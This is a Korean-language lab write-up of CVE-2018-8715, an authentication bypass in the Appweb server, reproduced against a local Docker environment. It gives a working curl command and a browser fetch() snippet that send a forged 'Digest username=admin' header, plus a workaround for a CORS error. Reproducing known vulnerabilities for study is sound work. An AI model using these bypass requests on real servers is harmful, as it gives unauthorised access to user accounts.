

# CVE-2018-8715

**Contributors**
-   [정준우(@JungJoonWoo)](https://github.com/JungJoonWoo)
<br/>

### 참고문헌
- https://vulners.com/seebug/SSV:97181
- https://github.com/cyberharsh/appweb/blob/master/README.md

### 요약
- 인증 절차의 논리적 결함으로 인해 기존 사용자의 이름을 알면 위조된 HTTP POST Request를 통해 모든 form인증과 digest 타입의 인증을 완전히 우회할 수 있음
- 비밀번호 포인터가 null이라면(즉, 비밀번호 매개변수가 전달되지 않는 다면)로직 오류로 인해 appweb이 인증이 성공했다고 반환함
<br/>

### 환경 구성 및 실행
- 모든 실습은 VMware의 Ubuntu 리눅스 환경에서 진행함
- `docker-compose up -d`를 실행하여 테스트 환경을 실행함
- `http://localhost:8080/` 에 접속하여 appweb 로그인 페이지를 확인함
  ### 실행1
  - `sudo apt install curl`을 통해 curl을 설치해 줌
  - `curl -H "Authorization: Digest username=admin" http://127.0.0.1:8080`를 통해 HTTP 헤더에 `Authorization: Digest username=admin` 패킷을 끼워 보내면 인증을 우회할 수 있다는 것을 확인
  
  - `curl -H "Authorization: Digest username=admin" http://127.0.0.1:8080 -o output.html`명령어로 우회를 통해 알아낸 html파일을 로컬 파일로 추출한 뒤 로컬 환경에서 추출된 html 파일을 실행하면 정상적으로 실행됨

  ### 실행2
  - `F12`를 누른 뒤 콘솔에서 
  ```
  fetch('http://localhost:8080', {
    method: 'GET',
    headers: {
    'Authorization': 'Digest username=admin'
    }
    })
    .then(response => response.text())
    .then(data => console.log(data))
    .catch(error => console.error('Error:', error));
  ```
  코드를 입력해 헤더에 `'Authorization': 'Digest username=admin'`을 추가함
  - 하지만 CORS에 의해 에러가 발생함
  
  
  - 이를 우회하기 위해 오류가 뜬 상태에서 아이디와 비밀번호를 아무값이나 입력하면 다음과 같이 상태는 200으로 패킷이 잘 전달 되었지만 인증은 되지 않았다는 창이 뜸
  
  
  - 이 상태에서 콘솔에 위 fetch코드를 다시 입력하면 local값이 잘 설정되어 있기 때문에 CORS에러가 발생하지 않음
  - 이후 개발자 도구를 끄고 `F5`를 눌러 새로고침하면 우회된 것을 확인할 수 있음
<br/>

### 결과1

### 결과2

<br/>

### 정리
- 7.0.3버전부터 취약점이 패치됨
- id를 무작위로 대입할 시 수많은 계정이 유출될 가능성이 있기 때문에 매우 위험한 취약점임